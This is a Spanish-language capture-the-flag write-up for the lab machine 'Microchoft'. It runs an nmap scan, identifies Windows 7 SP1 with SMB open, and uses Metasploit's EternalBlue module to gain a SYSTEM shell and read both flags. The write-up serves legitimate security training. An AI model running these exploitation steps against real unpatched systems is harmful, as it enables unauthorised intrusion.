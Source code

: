 # CTF - The Hackers Lab - Microchoft

## 📑 Información General

- **Nombre:** Microchoft
- **Dificultad:** Muy Fácil
- **SO:** #Windows
- **Vulnerabilidad principal:** EternalBlue
- **Fecha resolución:** 05/06/2025
- **MD5:** d3c63284f99639d8a19467f39ee7c57f
- **Enlace:** [The Hackers Lab - Microchoft](https://thehackerslabs.com/microchoft/)

>Objetivo > Obtener las flags: 
> - 🚩 user.txt 
> - 🚩 root.txt

## 🔎 Reconocimiento

### Escaneo Inicial
IP máquina víctima: **192.168.10.20**

Comprobamos la conectividad enviando un paquete `icmp` a dicha máquina. Además, en función del TTL sabremos distinguir el SO instalado en la misma. Dado que su TTL es 128, estamos frente a una máquina **Windows**.

![image](https://github.com/eliferrob/CTFs/blob/main/assets/microchoft%20(1).png)

### Escaneo de Puertos

```bash
nmap -p- --open -sS -sC -sV --min-rate 5000 -n -vvv -Pn 192.168.10.20
```

![image](https://github.com/eliferrob/CTFs/blob/main/assets/microchoft%20(2).png)

### Enumeración de Servicios

| Puerto | Servicio     | Versión                        |        Notas         |
| ------ | ------------ | ------------------------------ |:--------------------:|
| 135    | msrpc        | Microsoft Windows RPC          |          -           |
| 139    | netbios-ssn  | Microsoft Windows netbios-ssn  |          -           |
| 445    | microsoft-ds | Windows 7 Home Basics 7601 SP1 | Workgroup: WORKGROUP |
| 41955  | msrpc        | Microsoft Windows RPC          |          -           |

## 🌐 Exploración

Analizando el resultado devuelto con `nmap`, detectamos que el sistema operativo es **Windows 7 Home Basic SP1 (Service Pack 1)** . Este sistema, con el puerto 445 abierto, es vulnerable al clásico exploit **EternalBlue**.

## ⚔️ Explotación

Abrimos **Metasploit** y buscamos por el término "eternalblue". Nos devolverá varios resultados, pero a nosotros nos interesa el primero, así que lo seleccionamos y lo configuramos con los siguientes comandos:

```bash
search eternalblue
use 0
show options
set RHOSTS 192.168.10.20
run
```

La explotación ha sido un éxito. Hemos conseguido abrir una sesión de **meterpreter** con el usuario "NT Authority".

![image](https://github.com/eliferrob/CTFs/blob/main/assets/microchoft%20(3).png)

Abrimos una shell escribiendo `shell` y comprobamos qué usuarios hay registrados en la máquina víctima.

![image](https://github.com/eliferrob/CTFs/blob/main/assets/microchoft%20(4).png)

## 🔐Escalada de Privilegios

Nos desplazamos a la ruta `C:\Users` y listamos su contenido. Vemos que efectivamente tenemos las carpetas de los usuarios **Admin** y **Lola**, así que indagamos un poco en ellas y encontramos que en el escritorio guardan un fichero con su **flag**.

![image](https://github.com/eliferrob/CTFs/blob/main/assets/microchoft%20(5).png)

![image](https://github.com/eliferrob/CTFs/blob/main/assets/microchoft%20(6).png)

🚩 **Flag de root encontrada.**

![image](https://github.com/eliferrob/CTFs/blob/main/assets/microchoft%20(7).png)

🚩 **Flag de user encontrada.**
